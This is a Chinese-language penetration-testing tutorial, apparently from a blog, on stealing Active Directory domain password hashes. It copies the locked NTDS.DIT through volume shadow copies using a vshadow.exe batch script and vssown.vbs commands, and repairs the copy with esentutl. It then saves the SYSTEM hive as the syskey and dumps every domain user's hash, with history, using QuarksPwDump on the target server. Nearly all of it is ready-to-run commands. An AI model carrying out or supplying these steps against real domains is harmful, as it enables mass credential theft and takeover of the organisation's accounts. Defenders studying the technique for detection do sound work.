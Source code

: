 域内用户HASH是存在NTDS.DIT中的， 它的存放位置是C:\Windows\NTDS.DIT。NTDS.DIT在系统运行过程中是被系统锁定的，无法操作，因此第一步是先把ntds.dit复制一份出来，然后导出其中的有效信息。  

### \#0x00 写在前面 

### \#0x01 拷贝ntds.dit
拷贝ntds.dit的方法有多种，这里说两种经常使用的。
#### 一、使用微软官方提供的卷影拷贝工具vshadow.exe复制ntds.dit  

现在官方不提供直接的下载了，可以安装官方JDK，在安装目录下可以找到vshadow.exe，这里要注意操作系统的版本，特别是xp和server 2003。  
利用官方JDK生成vshadow.exe的方法虽然不用担心后门，但是操作实在麻烦，这里提供一个runtime写的工具：ShadowCopy，安装后再安装目录下可以找到个系统版本对应的vshadow.exe。  


为了方便使用vshadow.exe，这里提供一个脚本：ShadowCopy.bat，内容如下：
```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%
```
执行完ShadowCopy.bat后，ntds.dit变被复制到当前目录。

图 vshadow_bat
![]()

在导出hash之前，ntds.dit需要使用esentutl工具修复  

esentutl /p /o ntds.dit

图 修复
![]()

导出ntds.dit后为了解密，还需要导出syskey
```
reg save hklm\system c:\perflogs\system.hive
```

#### 二、使用vssown.vbs复制ntds.dit
vssown.vbs脚本在这里下载的：[vssown.vbs](https://github.com/PythonPig/pentest-tools/blob/master/password-cracking/vssown.vbs)  

查看vssown.vbs的使用方法：
cscript vssown.vbs，主要的命令如下：
```
cscript vssown.vbs /start
cscript vssown.vbs /list
cscript vssown.vbs /create c
cscript vssown.vbs /delete id
cscript vssown.vbs /stop
```
1、启动服务
cscript vssown.vbs /start

图 vssown start
![]()

2、查看系统现有的快照并记录
cscript vssown.vbs /list

图 list
![]()

3、创建c盘快照
cscript vssown.vbs /create c

图 create
![]()

4、查看新增的快照
cscript vssown.vbs /list
通过与第2步中的快照对比可知哪个快照是新增的，执行命令后最先显示出的快照一般是最新创建的。  
记录最新创建快照的ID和Device Object

图 list2
![]()

5、从快照中拷贝ntds.dit和syskey
本次操作需要使用第4步中得到的快照ID和Device Object
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\ntds\ntds.dit C:\perflogs
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy140\windows\system32\config\SYSTEM C:\perflogs\system.hive
```
图 copy1 copy 2
![]()
![]()

syskey也可以这样导出
```
reg save hklm\system c:\perflogs\system.hive
```

6、删除快照并停止服务
```
cscript vssown.vbs /delete {D61DE4C9-029E-42E7-9A93-64529039FD54}
cscript vssown.vbs /stop
```
图 delete stop
![]()


### \#0x02 从ntds.dit导出所有用户hash
因为ntds.dit文件一般比较大，传回本地不太方便，所以需要在目标服务器上导出用户hash。  

```
QuarksPwDump.exe --dump-hash-domain --with-history --ntds-file c:\perflogs\ntds.dit --system-file c:\perflogs\system.hive -o c:\perflogs\res.txt
```
图 quarkspwdump
![]()

一定要注意这里要给绝对路径,选项参数之间只能有一个空格，用到的[QuarksPwDump.exe在这里](https://github.com/quarkslab/quarkspwdump)
